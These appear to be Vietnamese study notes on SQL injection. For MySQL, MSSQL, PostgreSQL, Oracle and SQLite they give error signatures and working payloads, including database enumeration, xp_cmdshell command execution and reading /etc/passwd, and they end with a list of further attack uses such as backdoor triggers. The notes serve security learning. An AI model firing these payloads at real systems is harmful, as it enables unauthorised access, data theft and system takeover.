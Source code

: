 
1. Các phát hiện đối với mỗi loại db như kiểu SQL server thì có dấu hiệu gì

2. Ngoài thu thập dữ liệu từ db qua SQLi thì còn có thể làm được gì thêm 

# Phát hiện SQL Injection trên các loại CSDL

Mỗi hệ quản trị cơ sở dữ liệu (DBMS) có cú pháp và hàm riêng.  
Dưới đây là một số kỹ thuật phát hiện đặc trưng:

## MySQL
### Dấu hiệu nhận diện
- Error messages chứa "MySQL", "mysqli_", hoặc "Warning: mysql_"
- Hỗ trợ comment style `--`  và `#`
- Có thể stack queries với `;`

### Kỹ thuật phát hiện
**Time-based**
```sql
' AND SLEEP(5)-- 
' UNION SELECT SLEEP(5)-- 
```

**Error-based**
```sql
' AND EXTRACTVALUE(1, CONCAT(0x7e, VERSION(), 0x7e))-- 
' AND UPDATEXML(1, CONCAT(0x7e, DATABASE(), 0x7e), 1)-- 
```

**Boolean-based**
```sql
' AND SUBSTRING(VERSION(),1,1)='5'-- 
```

**Information gathering**
```sql
' UNION SELECT VERSION(), DATABASE(), USER()-- 
' UNION SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA--
```

## SQL Server (MSSQL)
### Dấu hiệu nhận diện
- Error messages chứa "Microsoft OLE DB", "SQLSTATE", hoặc "Microsoft SQL Server"
- Hỗ trợ `@@` variables
- Có thể sử dụng `xp_cmdshell` để thực thi lệnh hệ thống

### Kỹ thuật phát hiện
**Time-based**
```sql
'; WAITFOR DELAY '00:00:05'-- 
' AND 1=(SELECT COUNT(*) FROM sysusers AS sys1, sysusers AS sys2, sysusers AS sys3, sysusers AS sys4, sysusers AS sys5)-- 
```

**Error-based**
```sql
' AND 1=CONVERT(INT, @@VERSION)-- 
' UNION SELECT NULL, NULL WHERE 1=CONVERT(INT, DB_NAME())-- 
```

**Boolean-based**
```sql
' AND SUBSTRING(@@VERSION,1,1)='M'-- 
```

**Information gathering**
```sql
' UNION SELECT @@VERSION, DB_NAME(), SYSTEM_USER-- 
' UNION SELECT name FROM master..sysdatabases-- 
' UNION SELECT name FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name='users')-- 
```

**Command execution (nếu có quyền)**
```sql
'; EXEC xp_cmdshell 'whoami'--
```
  ```

## PostgreSQL
### Dấu hiệu nhận diện
- Error messages chứa "PostgreSQL", "psql", hoặc "pg_"
- Hỗ trợ `::` casting operator
- Case-sensitive string comparisons

### Kỹ thuật phát hiện
**Time-based**
```sql
'; SELECT PG_SLEEP(5)-- 
' AND 1=(SELECT COUNT(*) FROM GENERATE_SERIES(1,1000000))-- 
```

**Error-based**
```sql
' AND CAST(VERSION() AS INT)-- 
' UNION SELECT CAST(CURRENT_DATABASE() AS INT)-- 
```

**Boolean-based**
```sql
' AND SUBSTR(VERSION(),1,10)='PostgreSQL'-- 
```

**Information gathering**
```sql
' UNION SELECT VERSION(), CURRENT_DATABASE(), CURRENT_USER-- 
' UNION SELECT schemaname FROM pg_tables-- 
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'-- 
```

**File operations (nếu có quyền)**
```sql
' UNION SELECT pg_read_file('/etc/passwd')--
```
  ```  

## Oracle
### Dấu hiệu nhận diện
- Error messages chứa "ORA-", "Oracle", hoặc "OracleDriver"
- Yêu cầu `FROM dual` cho single value queries
- Sử dụng `||` để concatenate strings

### Kỹ thuật phát hiện
**Time-based**
```sql
' AND (SELECT COUNT(*) FROM ALL_USERS T1, ALL_USERS T2, ALL_USERS T3)>0-- 
' UNION SELECT DBMS_PIPE.RECEIVE_MESSAGE('x',5) FROM DUAL-- 
```

**Error-based**
```sql
' AND CAST((SELECT BANNER FROM V$VERSION WHERE ROWNUM=1) AS INT)=1-- 
' UNION SELECT TO_CHAR(1/0) FROM DUAL-- 
```

**Boolean-based**
```sql
' AND SUBSTR(BANNER,1,6)='Oracle' AND '1'='1'-- 
```

**Information gathering**
```sql
' UNION SELECT BANNER, NULL FROM V$VERSION-- 
' UNION SELECT USERNAME, NULL FROM ALL_USERS-- 
' UNION SELECT TABLE_NAME, NULL FROM ALL_TABLES-- 
```
## SQLite

### Dấu hiệu nhận diện
- Error messages chứa "SQLite", "sqlite3", hoặc "database is locked"
- Không hỗ trợ stored procedures
- Sử dụng `sqlite_master` table

### Kỹ thuật phát hiện
**Time-based (limited options)**
```sql
' AND RANDOM()=RANDOM()-- 
```

**Error-based**
```sql
' AND CAST(SQLITE_VERSION() AS INT)=1-- 
```

**Boolean-based**
```sql
' AND SUBSTR(SQLITE_VERSION(),1,1)='3'-- 
```

**Information gathering**
```sql
' UNION SELECT SQLITE_VERSION(), NULL-- 
' UNION SELECT sql, name FROM sqlite_master WHERE type='table'-- 
' UNION SELECT name, NULL FROM sqlite_master WHERE type='table'--
```


# Ứng dụng SQLi ngoài việc thu thập dữ liệu

Ngoài việc lấy dữ liệu nhạy cảm, SQLi còn cho phép kẻ tấn công:

- **Bypass xác thực** → Đăng nhập không cần mật khẩu.  
- **Chèn, sửa hoặc xóa dữ liệu** → Làm thay đổi hoặc mất mát dữ liệu.  
- **Chiếm quyền điều khiển hệ thống** → Kết hợp với lỗ hổng khác để thực thi lệnh hệ điều hành.  
- **Phát hiện cấu trúc database** → Liệt kê bảng, cột, user DB.  
- **Leo thang đặc quyền** → Nếu tài khoản DB có quyền cao, có thể chiếm toàn bộ hệ thống.  
- **Tạo backdoor trong DB** → Cài đặt trigger hoặc stored procedure độc hại để duy trì truy cập.  
